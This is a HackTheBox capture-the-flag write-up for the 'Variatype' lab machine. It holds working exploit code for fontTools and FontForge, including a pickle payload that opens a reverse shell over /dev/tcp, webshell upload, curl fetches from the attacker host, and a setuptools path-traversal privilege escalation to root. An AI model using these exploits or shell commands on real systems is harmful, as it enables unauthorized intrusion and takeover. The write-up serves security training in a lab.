


# Variatype - HackTheBox


## Summary

| Item       | Value          |
| ---------- | -------------- |
| Name       | Variatype      |
| IP         | 10.129.244.202 |
| OS         | Linux          |
| Difficulty | Medium         |

---

# Enumeration

## Nmap

```bash
nmap -sC -sV -Pn 10.129.244.202
```

### Results

```text
Nmap scan report for 10.129.244.202
Host is up, received timestamp-reply ttl 63 (0.30s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7
80/tcp open  http    nginx 1.22.1

http-title: Did not follow redirect to http://variatype.htb/
```

### Notes

- SSH exposed.
- HTTP exposed.
- Virtual host discovered: `variatype.htb`.

---

## Add Host Entry

```bash
echo "10.129.244.202 variatype.htb" | sudo tee -a /etc/hosts
```

Verify:

```bash
curl -I http://variatype.htb
```

---

# Web Enumeration

## Homepage

Navigate to:

```text
http://variatype.htb
```

### Observations

From the `variatype.htb` web page, the application appears to be a font generation service.

In the **Tools** section it states:

> Upload your `.designspace` file and master fonts (`.ttf` / `.otf`) to generate a fully compliant variable font.

The `.designspace` format is an XML-based file. Historically, fonts had to be manually adjusted for every small variation (weight, style, etc.). `.designspace` was introduced to solve this problem by describing variable font axes in a structured way.

However, since it is XML-based and parsed server-side, it introduces several potential attack surfaces if not properly secured:

1. XXE (XML External Entity Injection)
2. Path Traversal / Arbitrary File Read
3. Command Injection in font build pipelines
4. Information Disclosure via source paths
5. SSRF (less common, but possible)

The **Services** section suggests a backend variable font generation pipeline.

Uploads are processed via:

```text
/tools/variable-font-generator/process
```

This strongly hints `fontTools` is being used.



---

## VHost Enumeration

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ ffuf -u http://variatype.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.variatype.htb" -fs 169

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://variatype.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.variatype.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

portal                  [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 1178ms]

```

add `portal.variatype.htb` to your `/etc/hosts`

looks like we need credentials but lets enumerate the directories using **gobuster**
there might be something useful.



```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ gobuster dir -u http://portal.variatype.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://portal.variatype.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.git                 (Status: 301) [Size: 169] [--> http://portal.variatype.htb/.git/]
.git/HEAD            (Status: 200) [Size: 23]
.git/config          (Status: 200) [Size: 143]
.git/index           (Status: 200) [Size: 137]
.git/logs/           (Status: 403) [Size: 153]
files                (Status: 301) [Size: 169] [--> http://portal.variatype.htb/files/]
index.php            (Status: 200) [Size: 2494]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================

```

`.git` folder is exposed!
you could use the `https://github.com/arthaud/git-dumper` to dump the .git folder
that will lead you to a credential that you can use to login to the portal, but it would be a dead end. whats interesting is `files` directory

---

## FontTools vulnerability

when i was searching for vulnerabilities for tools mentioned in `Services` section, found: **CVE-2025-66034** is a vulnerability in the `fontTools.varLib` variable font generation pipeline. When a web application exposes this pipeline and accepts user-supplied `.designspace` files, two weaknesses chain together to achieve **unauthenticated remote code execution**.
i checked what endpoint the exploit is sending the payload to and found `/tools/variable-font-generator/process` the same exact endpoint `http://variatype.htb/Tools` is using so in that moment i was pretty sure the backend is using fontTools

lets see if the vulnerable version is installed on the server.

### Installation

```bash
git clone https://github.com/yourhandle/font_varlib
cd font_varlib
pip install fonttools requests
```

if pip throws an error

```bash
cd font_varlib
python -m venv tmp
source tmp/bin/activate
pip install fonttools requests
```

Before running, open `font_varlib.py` and update the config block at the top of the file to match your target.

```python
UPLOAD_HOST = "http://variatype.htb"
...
UPLOAD_ENDPOINT = "/tools/variable-font-generator/process"
...
WEBROOT = "/var/www/portal.variatype.htb/public/files"
...
SHELL_HOST = "http://portal.variatype.htb/files"
```

we also set WEBROOT TO `/var/www/portal.variatype.htb/public/files` as we need a place to put the webshell and call it to get the reverse shell.

---

# Initial Access

you can ignore the --no-listen (the script will execute nc after the exploit)
but i used the --no-listen and launched a listener in another terminal.

```bash
┌──(tmp)─(kali㉿kali)-[~/…/HackTheBox/rooms/VariaType/POC-CVE-2025-66034]
└─$ python font_varlib.py --ip 10.10.14.156 --port 4444 --no-listen

╔═══════════════════════════════════════════════════════════╗
║   font_varlib  //  CVE-2025-66034                        ║
║   fontTools varLib  →  Arbitrary Write  →  RCE           ║
╠═══════════════════════════════════════════════════════════╣
║   attacker  10.10.14.156:4444                              ║
║   upload    http://variatype.htb/tools/variable-font-generator/process ║
║   webroot   /var/www/portal.variatype.htb/public/files     ║
║   shell     http://portal.variatype.htb/files              ║
╚═══════════════════════════════════════════════════════════╝

──────────────────────────────────────────────────────────
  GENERATING MASTER FONTS
──────────────────────────────────────────────────────────
  [+] source-light.ttf   (w100)
  [+] source-regular.ttf (w400)

──────────────────────────────────────────────────────────
  PAYLOAD
──────────────────────────────────────────────────────────
  [*] Shell name  : f0nt_c9txsunl.php
  [*] Write path  : /var/www/portal.variatype.htb/public/files/f0nt_c9txsunl.php
  [*] Trigger URL : http://portal.variatype.htb/files/f0nt_c9txsunl.php
  [+] malicious.designspace crafted
  [*] Primitive 1 : CDATA split  →  PHP injected into output body
  [*] Primitive 2 : Absolute path  →  output_dir bypassed in os.path.join()

──────────────────────────────────────────────────────────
  UPLOADING
──────────────────────────────────────────────────────────
  [+] Server response: HTTP 200

──────────────────────────────────────────────────────────
  LISTENER  //  TRIGGER
──────────────────────────────────────────────────────────
  [*] --no-listen set. Start listener manually:
  [*]   nc -lvnp 4444
  [*] Triggering: http://portal.variatype.htb/files/f0nt_c9txsunl.php

```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.156] from (UNKNOWN) [10.129.244.202] 59264
bash: cannot set terminal process group (3526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@variatype:~/portal.variatype.htb/public/files$

```

---

## User.txt

by running `pspy` we'll see that user `steve` is running a bash script every 2 or 3 minute.

```
...
2026/06/12 21:28:02 CMD: UID=1000  PID=4136   | /bin/bash /home/steve/bin/process_client_submissions.sh
```

### process_client_submissions.sh

we don't have access to `/home/steve` directory to see what it is running but looking at the `/opt` we see `/process_client_submissions.bak` and this looks like a backup from the original `/home/steve/bin/process_client_submissions.sh`

```bash
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi

```

### Font Processing Pipeline Analysis

The script is an automated font-processing pipeline that monitors the upload directory for submitted font files. It only processes files with specific font-related extensions (`.ttf`, `.otf`, `.woff`, `.woff2`, `.sfd`) as well as archive formats (`.zip`, `.tar`, `.tar.gz`).

Before processing, the script verifies that each file exists, is non-empty, and has a filename containing only alphanumeric characters, dots, hyphens, and underscores. Files that fail the filename validation are moved to a quarantine directory.

For each accepted file, the script invokes FontForge in Python mode and attempts to open the font. If FontForge successfully parses the file, the font metadata is extracted and the validation is logged. Any parsing errors are also recorded in the log file.

Regardless of whether validation succeeds or fails, the file is moved from the upload directory to a processed directory after the validation attempt. The script therefore acts as a scheduled validation pipeline that automatically analyzes newly uploaded font files using FontForge.

---

### fontforge version

```bash
/usr/local/src/fontforge/build/bin/fontforge -lang=py -c "import fontforge;print(fontforge.version())"

Copyright (c) 2000-2025. See AUTHORS for Contributors.
 License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
 with many parts BSD <http://fontforge.org/license.html>. Please read LICENSE.
 Version: 20230101
 Based on sources from 2025-12-07 11:44 UTC-D.
 Based on source from git with hash: a1dad3e81da03d5d5f3c4c1c1b9b5ca5ebcfcecf
20230101

```

## Vulnerability Overview

**CVE-2025-15276** is a critical **Remote Code Execution (RCE)** vulnerability in **FontForge** (versions up to and including **20230101**). The flaw exists in the parsing of the Spline Font Database (`.sfd`) format, specifically within the `PickledData` field.

When a maliciously crafted `.sfd` file is processed, FontForge may deserialize unsafe or attacker-controlled data during parsing. Since the pipeline executes FontForge as part of an automated validation process, this behavior can lead to arbitrary code execution in the context of the running user (in this case, potentially root).

This makes the file upload and processing workflow a high-risk attack surface, especially when combined with automated processing and elevated privileges.

### exploit

```python
import os
import pickle

LHOST = "10.10.14.156" # change this
LPORT = "4433"         # change this

# for Reverse shell
cmd = f"bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'"


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd,))


# Serialize the exploit class (Protocol 0 for ASCII compatibility)
payload = pickle.dumps(Exploit(), protocol=0).decode("ascii")

# Escape for SFD format (FontForge expects escaped backslashes and quotes)
escaped_payload = payload.replace("\\", "\\\\").replace('"', '\\"')

# Construct a minimal SFD file
sfd_content = f"""SplineFontDB: 3.2
FontName: Exploit
FullName: Exploit
FamilyName: Exploit
Weight: Regular
Version: 001.000
PickledData: "{escaped_payload}"
BeginChars: 256 0
EndChars
EndSplineFont
"""

with open("exploit.sfd", "w") as f:
    f.write(sfd_content)

print("[+] exploit.sfd generated successfully!")
print(f"[+] Payload: {cmd}")
```

this will give a `.sfd` file. upload it to `/var/www/portal.variatype.htb/public/files`
and setup a nc listener. i also generated a public and private key pair and putted the public key in `.ssh/authorized_keys` for a better shell access.

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): ./id_rsa
```

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ nc -nlvp 4433
listening on [any] 4433 ...
connect to [10.10.14.156] from (UNKNOWN) [10.129.244.202] 58074
bash: cannot set terminal process group (4326): Inappropriate ioctl for device
bash: no job control in this shell
steve@variatype:/var/www/portal.variatype.htb/public/files$ cd /home/steve
cd /home/steve
steve@variatype:~$ ls
ls
bin
logs
processed_fonts
quarantine
user.txt
steve@variatype:~$ mkdir .ssh
mkdir .ssh
steve@variatype:~$ chmod 700 .ssh
chmod 700 .ssh
steve@variatype:~$ curl https://10.10.14.156/id_rsa.pub >> ~/.ssh/authorized_keys
<//10.10.14.156/id_rsa.pub >> ~/.ssh/authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (7) Failed to connect to 10.10.14.156 port 443 after 317 ms: Couldn't connect to server
steve@variatype:~$ curl http://10.10.14.156/id_rsa.pub >> ~/.ssh/authorized_keys
<//10.10.14.156/id_rsa.pub >> ~/.ssh/authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91  100    91    0     0    143      0 --:--:-- --:--:-- --:--:--   143
steve@variatype:~$
```

we can now use ssh to access the box

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ ssh -i id_rsa steve@variatype.htb
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 12 21:52:49 2026 from 10.10.14.156
steve@variatype:~$
```

---

## Root.txt

user steve is allowed to run a python script as root without password!

```bash
steve@variatype:~$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

### install_validator.py

by looking at the source we can tell that it is importing `PackageIndex` from **setuptools**
and what its doing is, download a file from **url** as plugin and put it in a given directory.

I searched for `PackageIndex` exploit and found this `https://github.com/pypa/setuptools/issues/4946` explaining `PackageIndex.download()` is vulnerable to path traversal via URL encoding (`%2f`), allowing arbitrary file write.

### vulnerable code

```python
    def _download_url(self, url, tmpdir):
        # Determine download filename
        #
        name, _fragment = egg_info_for_url(url)
        if name:
            while '..' in name:
                name = name.replace('..', '.').replace('\\', '_')
        else:
            name = "__downloaded__"  # default if URL has no path contents

        if name.endswith('.[egg.zip](http://egg.zip/)'):
            name = name[:-4]  # strip the extra .zip before download

 -->       filename = os.path.join(tmpdir, name)
```

the exact same code is being used on the server

```bash
steve@variatype:~$ awk 'FNR>=810 && FNR<=825' /usr/local/lib/python3.11/dist-packages/setuptools/package_index.py
    def _download_url(self, url, tmpdir):
        # Determine download filename
        #
        name, _fragment = egg_info_for_url(url)
        if name:
            while '..' in name:
                name = name.replace('..', '.').replace('\\', '_')
        else:
            name = "__downloaded__"  # default if URL has no path contents

        if name.endswith('.egg.zip'):
            name = name[:-4]  # strip the extra .zip before download

        filename = os.path.join(tmpdir, name)

        return self._download_vcs(url, filename) or self._download_other(url, filename)
```

## exploit

create a directory like this and put your `id_rsa.pub` (ssh public key) in `authorized_keys`

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ tree root -a
root
└── .ssh
    └── authorized_keys

2 directories, 1 file

┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ cat id_rsa.pub >> root/.ssh/authorized_keys

┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

start a `python -m http.server` from one directory upper than root
and run this:

```bash
steve@variatype:~$ sudo /usr/bin/python3 /opt/font-tools/install_validator.py http://10.10.14.156/%2froot%2f.ssh%2fauthorized_keys
2026-06-12 22:24:37,316 [INFO] Attempting to install plugin from: http://10.10.14.156/%2froot%2f.ssh%2fauthorized_keys
2026-06-12 22:24:37,327 [INFO] Downloading http://10.10.14.156/%2froot%2f.ssh%2fauthorized_keys
2026-06-12 22:24:37,970 [INFO] Plugin installed at: /root/.ssh/authorized_keys
[+] Plugin installed successfully.
```

this will write ssh public key in `/root/.ssh/authorized_keys`. after that we can use ssh to login as root

```bash
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/VariaType]
└─$ ssh -i id_rsa root@variatype.htb
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 12 22:24:50 2026 from 10.10.14.156
root@variatype:~# ls -l
total 4
-rw-r----- 1 root root 33 Jun 12 20:06 root.txt
root@variatype:~#
```

---

# Conclusion

This box demonstrates a full chain of:

- Virtual host discovery
- Font pipeline abuse
- Scheduled task analysis
- Unsafe `.sfd` parsing → RCE
- Python package path traversal → root compromise
